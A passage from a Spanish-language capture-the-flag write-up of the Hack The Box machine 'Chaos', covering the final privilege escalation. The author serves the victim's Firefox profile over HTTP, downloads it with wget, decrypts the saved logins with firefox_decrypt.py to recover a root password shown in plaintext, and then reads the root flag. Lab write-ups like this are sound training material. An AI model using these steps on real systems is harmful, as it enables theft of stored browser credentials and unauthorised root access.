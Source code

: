 Vamos primero a abrir un servidor http con python en la máquina víctima y vamos a descargar todo lo que está en ese directorio.
```
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

Luego, en nuestras máquina:
```
wget -r chaos.htb:8000
--2023-02-17 17:37:11--  http://chaos.htb:8000/
Resolving chaos.htb (chaos.htb)... 10.10.10.120
Connecting to chaos.htb (chaos.htb)|10.10.10.120|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2983 (2.9K) [text/html]
Saving to: ‘chaos.htb:8000/index.html’

chaos.htb:8000/index.html                            100%[=====================================================================================================================>]   2.91K  --.-KB/s    in 0.002s  
```

Lo descargaremos todo.

Luego, vamos a utiliar el script dandole la ruta donde están los archivos:
```

python3 firefox_decrypt.py ../chaos.htb:8000
2023-02-17 17:38:57,539 - WARNING - profile.ini not found in ../chaos.htb:8000
2023-02-17 17:38:57,539 - WARNING - Continuing and assuming '../chaos.htb:8000' is a profile location

Master Password for profile ../chaos.htb:8000: 
```

Nos pide una contraseña, vamos a introducir la que sabemos:
```
python3 firefox_decrypt.py ../chaos.htb:8000
2023-02-17 17:39:35,187 - WARNING - profile.ini not found in ../chaos.htb:8000
2023-02-17 17:39:35,188 - WARNING - Continuing and assuming '../chaos.htb:8000' is a profile location

Master Password for profile ../chaos.htb:8000: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
Y ha funcionado, tenemos un usuario y contraseña, vamos a probarlas:
```
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ su root
Password: 
root@chaos:/home/ayush/.mozilla/firefox/bzo7sjt1.default# cd /root/
root@chaos:~# cat root.txt
e893768eae0135bb85dfeb75

```

¡Listo! Nos convertimos en root, hemos terminado la máquina.

Nos vemos, hasta la próxima.
